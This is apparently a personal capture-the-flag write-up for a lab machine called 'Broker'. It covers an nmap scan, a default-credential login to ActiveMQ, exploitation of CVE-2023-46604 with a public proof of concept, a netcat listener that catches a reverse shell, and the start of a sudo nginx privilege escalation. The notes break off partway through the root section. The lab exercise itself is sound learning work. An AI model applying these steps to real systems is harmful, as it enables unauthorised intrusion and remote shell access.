 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
* First thought is to see if root is not password protected with `sudo su` but no luck
* I then decided to list the allowed (and forbidden) commands for the invoking user on the current host with `sudo -l` 
	* This command helps users understand what privileges they have when using sudo
![](Broker-paste-2.png)
* I was able to see that the activemq user is able to run the nginx command with sudo privileges
* I then researched nginx privilege escalation and found [this git repo](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
	* I ran through all of the steps and then I realized that it does not include the exploit code :/
	* A big issue I had with this exploit was that both`nano` and `vi` started looking and acting jank when I tried to use this
* After looking for a little push, I saw that I could just make the exploit on my host kali box and through it up on the webserver I used to exploit user.